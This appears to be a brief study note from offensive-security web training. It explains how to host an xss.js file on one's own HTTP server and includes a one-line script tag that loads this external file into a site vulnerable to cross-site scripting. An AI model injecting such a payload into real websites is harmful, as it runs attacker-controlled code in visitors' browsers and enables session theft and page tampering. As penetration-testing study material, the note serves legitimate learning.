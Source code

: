 ```yaml
---
tags:
- xss
---
```


# XSS external JS payload

1. Run http server and create xss.js file with payload [[2023042721114747 Create FS http server]]
2. Create link to your external script and inject it in vulnerable to XSS site: 
```html
<script src="http://<ip>/xss.js"></script>
```

## References
1. web200.Cross-Site Scripting Exploitation and Case Study.Moving the Payload to an External Resource